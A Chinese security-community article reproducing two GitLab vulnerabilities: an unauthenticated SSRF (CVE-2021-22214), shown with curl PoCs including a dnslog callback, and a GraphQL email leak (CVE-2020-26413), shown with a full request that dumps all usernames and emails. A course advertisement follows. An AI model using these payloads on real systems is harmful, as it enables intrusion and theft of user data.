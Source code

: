 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HFug1khyfHmCujhc_Gm_yQ)

******文章来源｜MS08067 Web 安全知识星球******  

> 本文作者：**Taoing**（Web 安全攻防合伙人）

GitLab 是一个用于仓库管理系统的开源项目，使用 Git 作为代码管理工具，并在此基础上搭建起来的 Web 服务。

### 一、漏洞描述

GitLab 是美国 GitLab 公司的一款使用 Ruby on Rails 开发的、自托管的、Git（版本控制系统）项目仓库应用程序。该程序可用于查阅项目的文件内容、提交历史、Bug 列表等。

**CVE-2021-22214**

GitLab 存在前台未授权 SSRF 漏洞，未授权的攻击者也可以利用该漏洞执行 SSRF 攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JkMbDicXTZYzuWQfkl9XNoibQ5Q3G6z42cy2UpTDaPTwhf7ePk7Jric8Hg/640?wx_fmt=png)

### 二、漏洞影响

```
app="GitLab"
```

影响版本：从 10.5 开始的所有版本

安全版本：官方当前最新的 13.12.2, 13.11.5 和 13.10.5

### 三、POC：

```
curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://xx.xxx.xx.xx:port/api/v1/targets?test.yml"}'
```

### 四、漏洞复现：

#### 1、环境搭建

**搭建环境介绍：CentOS7.6**

1) 首先按官网提示先安装依赖，然后执行下面命令添加 yum 源，选择 gitlab-ce 社区版

```
curl -s https://packages.gitlab.com/install/repositories/gitlab/gitlab-ce/script.rpm.sh | sudo bash
```

2) 更新本地 yum 缓存

```
sudo yum makecache
```

3) 获取更新源中可安装所有的 gitlab 版本

```
yum list gitlab-ce --showduplicates|sort -r
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JZ0Rm11XYZznpmq1NtibW2e07Btn7Jvc0JI3gJicgrYDEWGLAoBtxJKcg/640?wx_fmt=png)

**使用 yum 安装指定版本，例如 13.12.1**

```
yum install gitlab-ce-13.12.1-ce.0.el7
```

使用命令`gitlab-ctl reconfigure`即可默认配置安装 gitlab。

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JqavTIeQ0DWo2qaiaPN2huMsrELWmurGKWCAHRlsGDOAaMibb1Bj8n55A/640?wx_fmt=png)

**默认配置安装 gitlab：端口默认 80**

```
gitlab-ctl reconfigure
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JF2oicxYQUyVuMwAxibWXVOGhD2KIQZj2pLibq5w0JdBoB2ciaiayz207Mvw/640?wx_fmt=png)

#### 2、漏洞复现

1)dnslog

```
curl -s --show-error -H 'Content-Type: application/json' http://47.243.37.71/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://rkv4ov.dnslog.cn/api/v1/targets/?test.yml"}'
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JtDCe8t0kwtahyXAddIcFM6MJM2iamUicscue5xnaULiaDWCQlUDibeSRxA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JUgcYN2hZViaAibibvsoRfic39qR5M7iaxSW0OAujMSiby7uwicXP4f4vzgp6w/640?wx_fmt=png)

GitLab_Graphql 邮箱信息泄露漏洞 (CVE-2020-26413)
----------------------------------------

### 一、漏洞描述

GitLab 是美国 GitLab 公司的一款使用 Ruby on Rails 开发的、自托管的、Git（版本控制系统）项目仓库应用程序。该程序可用于查阅项目的文件内容、提交历史、Bug 列表等。

GitLab 中存在 Graphql 接口 输入构造的数据时会泄露用户邮箱和用户名

### 二、影响范围

GitLab 13.4 – 13.6.2

title="GitLab"

### 三、漏洞复现

访问 URL

`http://xxx.xxx.xxx.xxx/-//graphql-explorer`

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2JKIrEpS8JPwHWrR4YMqAic5RrHxBKmA0rZ2vndLqicMR2avicI6LZTgC8A/640?wx_fmt=png)

Gitlab 本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在 Graphql 官网查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱

发包调用了 /api/graphql 接口发送数据

完整数据包为:

```
POST //api/graphql HTTP/1.1
Host: 10.1.2.33:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 220

{"query":"{\nusers {\nedges {\n node {\n username\n email\n avatarUrl\n status {\n emoji\n message\n messageHtml\n }\n }\n }\n }\n }","variables":null,"operationName":null}
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2Ju91xe4er4fb4kWGr94n4VLlrYyhppLsMML6Bygae6gW8t1DH4XPYbA/640?wx_fmt=png)

**618 优惠活动还没有结束！**

**福利一：**  

购全部 6 个星球，享 6.18 **惊爆价：1699 元**（原价 2458 元）**（追加 10 名）**

  
更送 **3 本**作者签名书（**五选三**）  
《Web 安全攻防：渗透测试实战指南》（89 元）  
《内网安全攻防：渗透测试实战指南》（99 元）  

《Python 安全攻防：渗透测试实指南》（99 元）  

《Kali Linux2 渗透实践指南 (第 2 版)》（89 元）  
《Java 代码审计（入门篇）》           （118 元）

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaiczc9eExatO0iby25U9zm3tC0ickSAPd0qPEw4HMO5ianH8bECEhib87Zf1PRYqGaLsHEyw8kXWRQIerw/640?wx_fmt=jpeg)   ![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibLRXRCfRt6FHsibXGufWPkpoCLyflNVCwmvSHBgcVm4J2Ma6llsDc3IL4pm8gaha2RPg5E0HPhQ4g/640?wx_fmt=jpeg)  

 ![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibud1JNDxibA6pTY23tAicYe9OibdxtgQZkZuGqMXfVLTJsDQXezEoOTzLG2OxGYxzPlicuKibianR0NtJw/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWa9r9k14gKT1e1n4K2yic2FJb8xC3W8O62PEicMV7wQicR90ajQib5NYUCUO0ZwOZiaRqRVicZfEVaNIiaMcw/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWa9DYgLfoc1CfGcqwicHiaFN5ahDRO67jEiczLalJBv2Zn7EtoBnClC1nSpXdvZk0t1Kyd83Tc8cfSrKA/640?wx_fmt=jpeg)

**注意**：需要购买的同学请添加**徐哥**微信！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaib1x5o95XhhaibkDuXNOBYqPibUe8qYbOMJUVcXBxJO7ImAt68S7icKb9Hr0CcWiaKKbjibqhgofiaQv5rQ/640?wx_fmt=png)

**福利二：**  

本次活动，**单个星球我们只对外发放 50 张优惠券，最高立减 90 元  
**

**（6.20 号新增 30 张 Web 星球优惠券）**

大部分星球价格 365 元，**618 惊爆价：299 元  
**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa84wVVZgaxDKLdTCnaKzvcUZFKfCxZZzMTZDDlI79KDEicLt9b1bDWBqzDrBPDGCfowRSQVH569uEg/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa84wVVZgaxDKLdTCnaKzvcUP1I0KELk8gcavjCC1iawZ9lUGNouC7rY3XS16sNh14pvnlZFapCMp8A/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa84wVVZgaxDKLdTCnaKzvcUqLKPd1mv5yW5wgJfKOpzp0PCmWq7OJaggKdjdBAWn2WylicKOcApDcw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa84wVVZgaxDKLdTCnaKzvcUUSdM8VDJHUWGdd4P6zOYKQmfld9cib52jweb6n25VXibvOO5JoswBQsg/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa8KPiaEDJ2ibbVRLV41XMjic2J7TRdn7Hl8gpzkvVShBj1MNkGdeUiaWyvbQ3m7lUqicha10XElFpOv2Iw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa84wVVZgaxDKLdTCnaKzvcUZW1icOYqic3AGQNLfld4HBBbmNQaaicSvGOQy1D9JpUA8icoDiaicDmpeBYA/640?wx_fmt=png)

一件衬衫的价格，让你学会一门渗透技术，超级划算了：

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9NuGttQmVyIn3k5RXjSibtldrOHrRUO8bpPUtMnIsJicbduKicwZEOfQ7ibESnSEib9FEMIL64RaNkibFw/640?wx_fmt=png)加入须知：

*   加入星球后，下载知识星球 App，微信登陆即可进入；
    
*   在星球置顶帖，添加管理员微信，邀请进内部微信群；
    

**目前有 4000 多位同学在知识星球和我们一起学习进步，我们等着你入伙！**  

**想白嫖的同学可以看这里哦！**  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaib5jk9a8RcC0kBlDJPcXQxyl75VGLLmYpt4AfTCRopNRDJicOZxjYn5GN4rPbyNdynuvvk4pI4TkTQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzU1NjgzOTAyMg==&mid=2247493153&idx=1&sn=8a8ea93c4e4fca00128fae9306b168c0&chksm=fc3c5f20cb4bd6365156ec490c95f88ba188d27c966e5478b7adabd2709f95f3723fd372d0e8&scene=21#wechat_redirect)

**扫描下方二维码加入星球学习**  

**加入后邀请你进入内部微信群，内部微信群永久有效！**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

**来和 4000 + 位同学一起加入星球学习吧！**

![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)
